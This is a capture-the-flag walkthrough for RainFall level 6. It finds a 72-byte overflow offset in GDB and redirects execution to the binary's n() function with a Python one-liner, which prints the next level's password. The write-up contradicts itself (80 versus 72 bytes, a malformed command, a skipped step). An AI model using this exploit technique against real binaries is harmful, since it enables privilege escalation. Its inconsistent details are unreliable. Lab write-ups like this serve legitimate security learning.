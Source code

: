 #Level6

## Objective

The goal of Level 6 is to escalate from `level6` to `level7` by exploiting a buffer overflow vulnerability in the `level6` binary. By the end, we’ll be able to read the password for `level7`.

---

## Step 1: Examine the Binary

After switching to `level6`:

```bash
level6@RainFall:~$ ls
level6
```

Running the binary with different input lengths:

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)

level6@RainFall:~$ ./level6 aaaaa
nope
```

Disassembling functions:

There's a function called `n()` which calls a syscall.
The main uses 2 mallocs and a strcpy. If there's a strcpy there's a way to leak.

---

## Step 2: Find the Offset with GDB

We use a specific string to identify the overwrite point:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
Program received signal SIGSEGV
0x41346341 in ?? ()
```
By calculating the position of `0x41346341` in the string, we determine the **offset** is 72 bytes.

---

## Step 4: So What’s the Expected Input?

To exploit the program:

* **Shellcode is not needed** here because the binary already has a function (`n`) that runs the command for us.
* We need: `padding (80 bytes) + address of n()`

```bash
python -c 'print "A" * 72 + "add de n"
```

This overwrites the return address with the address of `n()`.

```bash
(gdb) info functions
    0x08048454  n
```

---

## Step 5: Get the Flag

Running the exploit:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Now we can read:

```bash
level6@RainFall:~$ su level7
Password: <paste flag>
level6@RainFall:~$
```

---

**End of Level 6 Walkthrough**



